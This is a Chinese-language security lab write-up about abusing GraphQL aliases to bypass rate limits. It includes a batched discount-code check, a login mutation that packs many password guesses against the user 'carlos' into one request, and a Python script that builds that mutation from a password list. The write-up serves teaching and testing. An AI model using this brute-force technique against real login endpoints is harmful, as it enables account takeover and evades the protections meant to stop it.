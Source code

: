 ### 别名基础用法

**问题**：GraphQL 对象不能有多个同名属性

```graphql
# 无效查询（重复字段）
query {
  getProduct(id: 1) { name }
  getProduct(id: 2) { name } # 错误：重复字段名
}
```

**解决方案**：使用别名

```graphql
# 有效查询（使用别名）
query {
  product1: getProduct(id: 1) { name }
  product2: getProduct(id: 2) { name }
}
```

### 别名滥用：绕过速率限制

**正常速率限制**：每分钟 100 个 HTTP 请求

**攻击手法**：单个请求中使用别名批量执行操作

```graphql
query CheckDiscountCodes {
  code1: checkDiscount(code: "DISCOUNT1") { valid }
  code2: checkDiscount(code: "DISCOUNT2") { valid }
  # ...重复 100 次，绕过请求级限制
  code100: checkDiscount(code: "DISCOUNT100") { valid }
}
```

### 实验

登录使用 graphql api：

![image-20250515171445580](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/GraphQL%20API%20%E6%BC%8F%E6%B4%9E/images/image-20250515171445580.png)

多次错误登录限制次数：

![image-20250515171554784](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/GraphQL%20API%20%E6%BC%8F%E6%B4%9E/images/image-20250515171554784.png)

```
Exception while fetching data (/login) : You have made too many incorrect login attempts. Please try again in 1 minute(s).
```

```
mutation {
        bruteforce0:login(input:{password: "123456", username: "carlos"}) {
              token
              success
          }

          bruteforce1:login(input:{password: "password", username: "carlos"}) {
              token
              success
          }

          bruteforce99:login(input:{password: "12345678", username: "carlos"}) {
              token
              success
          }
}
```

```

str_list = []
with open("passwd.txt","r") as f:
    index = 0
    lines = f.readlines()
    for line in lines:
        str_tmp = '''bruteforce_int_foo:login(input:{password: "_str_foo", username: "carlos"}) {
              token
              success
          }
'''
        str_list.append(str_tmp.replace("_int_foo",str(index)).replace("_str_foo",line.strip("\n")))
        index += 1

txt = "mutation {\n" +"".join(str_list) + "\n}"
print(txt)

with open("1.txt","w") as f:
    f.write(txt)
```

![image-20250515173647403](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/GraphQL%20API%20%E6%BC%8F%E6%B4%9E/images/image-20250515173647403.png)

